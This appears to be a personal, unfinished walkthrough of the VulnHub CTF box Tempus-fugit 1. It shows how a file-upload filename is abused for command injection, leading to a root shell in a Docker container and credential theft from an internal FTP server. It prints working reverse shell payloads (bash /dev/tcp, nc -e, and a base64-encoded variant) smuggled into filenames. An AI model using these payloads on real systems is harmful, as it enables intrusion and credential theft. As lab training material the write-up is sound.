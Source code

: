 ﻿# Tempus-fugit 1

This is the first time I am attempting a CTF. I've gone through walkthroughs of few CTFs before. The resources I follow are hackingarticles.in and [ippsec.rocks](https://ippsec.rocks/?#). The box can be downloaded from [vulnhub](https://www.vulnhub.com/entry/tempus-fugit-1,346/). This is a few months old box.


# Network Scanning

I've imported the .ova file using virtualbox and put both the kali vbox and the Tempus-fugit vbox (target) in the same NATNetwork. The ip target machine can be found using `netdiscover` tool. Since my kali has an ip of 10.0.2.12 and both are in the subnet 10.0.2.0/24, we can use the range parameter in netdiscover to easily find the ip `netdiscover -r 10.0.2.0/16`. From the list of ips found, we can identify the target machine. We can then use `nmap` to find what ports are open on the target machine (its 10.0.2.14 in my case)
```
nmap -sC -sV -oA nmap/nmap 10.0.2.14
# Nmap 7.70 scan initiated Mon Feb 24 02:38:03 2020 as: nmap -sC -sV -oA nmap/nmap 10.0.2.14
Nmap scan report for 10.0.2.14
Host is up (0.00014s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.15.3
|_http-server-header: nginx/1.15.3
|_http-title: Tempus Fugit
|_http-trane-info: Problem with XML parsing of /evox/about
MAC Address: 08:00:27:22:DA:48 (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 24 02:38:11 2020 -- 1 IP address (1 host up) scanned in 8.01 seconds
```
# Enumeration
From nmap data, we can see that there is a nginx web server hosted on port 80 and we can connect to it using http. The site looks pretty simple. It has a main page and upload page. There is nothing interesting from the page source, except that it looks like a template. The stuff section of the page has many cards which pop up modals. Nothing interesting here.

![clicking the cards pop up these modals](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/stuff.png)

The about section mentions something about an ftp server where scripts can be uploaded. This might be out point of injection.

![about section of the page](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/about.png)

Next, the page has a contact us with multiple forms for name, mail, etc. But whatever the input is, the site responds with an error saying the mail server is not responding

![contactus](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/contactus.png)

The upload page has two buttons to browse and upload files. After selecting a file, the file name gets displayed on the page. So, we can try any XSS vectors here

![browse](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/browse.png)

after the files is uploaded, the contents of the file are displayed on the page. This is interesting, so i tried to check if it executes if there's a command inside a file. But it just shows the command instead.

![command](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/command.png)

Since its just showing the contents of file, the server might just be using `cat` on the file name to do this. If that's the case, we can append a command in the filename which gets executed after `cat`. To try this, I uploaded a file 'new3.txt;whoami'. Infact, we can append multiple commands seperated by ';'. This was successful and the command `whoami` gets executed and returns root

![whoami- root](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/whoami.png)

this can be used as a command injection point to spawn a reverse shell. The best way to iterate is using burp suite's repeater. Here are some observations from uploading files with various commands in the name:
* there are two requests during the upload- a POST request with filename parameter. The response to this is a session cookie from the server, which will be passed in the second request (GET). The response to this is a html with the command executed. In case of `ls` after filename, the output html has the following:

![ls](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/ls.png)

* the cookie changes everytime there is a new request
* only .txt and .rtf files can be uploaded. The server gives an error saying that only these types are accepted
* reverse shell can be created using bash - `bash -i >& /dev/tcp/10.0.2.12/9001 0<&1`, but unix doesn't allow filenames to have '/' in them. So we cannot use this. I've tried exporting command to an env variable and using it while creating a file, didn't help.
* But we don't have to create a file. Since its a parameter in the request, we can modify the request in burp repeater. But still this doesn't work and gives a 500 error

![500 error](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/500.png)

* if there is any '.' in the command, server rejects it saying that its not a text file. So, we cannot add ip addresses in the command
* there are numerous ways to get a [reverse shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md), but all these methods need to have ip address in the command. 
* one way to eliminate the '.' and '/' is by encoding the command. `YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjIuMTIvOTAwMSAwPiYxCg==` is the base64 encoded version of `bash -i >& /dev/tcp/10.0.2.12/9001 0<&1`. I created a file and with the name `“new.txt;echo ‘YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjIuMTIvOTAwMSAwPiYxCg==’ | base64 -d > revShell”`. The plan here is to create a file (revShell) in server and then execute it with the next file - `"new.txt;bash revShell"`.  And at the same time, use `nc` to start a listener on the same port (9001) on kali using `nc -lvnp 9001`. Unfortunately, this didn't work and i don't recall why.
* I tried the same process with `nc` based reverse shell (`nc -c bash 10.0.2.12 9001`) as well. This time, the session has established, but I was unable to run any commands and the server returned error *cannot connect to FTP-server*

![session established](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/session.png)
![FTP timeout](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/ftp-server.png)

* one more thing I wanted to try was appending another command to the filename, this time with a .txt extension. I used the filename "new.txt;nc 10.0.2.12 9001 -e bash; a.txt". This should work even though the last command `a.txt` doesn't make any sense. And it worked. This is the first time i got a reverse shell and i was too excited

![shell!! yay](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/firstshell.png)

- we can use `python -c 'import pty;pty.spawn("/bin/bash")'` to prettify the terminal
- I've also used `stty raw -echo` on the kali terminal so that I can use tabbing on this shell

The next step is to get the root flag, which is usually in /root. There's a message.txt file, but it says 'you are not done yet'

![damn!](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/message.png)

Since there are some files we found with `ls` command, lets examine the files.
* most of the files are pretty normal, js and htmls
* the interesting on is the main.py, which runs a flask app to serve the uploads page. All the checks in filenames we discovered so far are coming from this file.
* it also has the credentials of ftp server. We can use it later at some point

![ftp-creds](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/ftp-creds.png)

* to see what's going on the server, I ran [LinEnum.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh). It's an amazing tool which enumerates all the useful data on the machine.
* From the linenum output, we can see that we're inside a docker container. This makes sense as there was a docker message during target bootup

![docker](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/docker.png)

* there are few file in the root directory- there's another file *entrypoint.sh* which looks to be creating *nginx.conf* file. There's also a *start.sh* script which runs another script */app/prestart.sh*
* another interesting grab from linenum is the history files. *.python_history* has some interesting information

![enter image description here](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/pyhistory.png)

* the arp table from linenum shows few ips
 
![enter image description here](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/arp.png)

* The FTP port should be open on one of these ips. We can check this using `nc -zv 172.19.0.100 21` command
 
![nc](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/nc-zv.png)

* since 172.19.0.12 has port 21 open, we can connect it using ftp. From the conf files linenum found, there are lftp files. So, server might be using lftp to connect to the FTP server. Using the credentials from main.py, I was able to login. Apart from all the files I earlier uploaded while getting reverse shell, there is a *cmscreds.txt* file which has some credentials
 
![cmscreds](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/cmscreds.png)

* linenum also shows *resolv.conf* which has interesting 
 
![resolv](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/resolv.png)

dns resolution of mofo.pwn might reveal more details. I am stuck at this point as there is no `dig` installed in the docker and `apk add bind-utils` is not working. So, this is still a work in progress
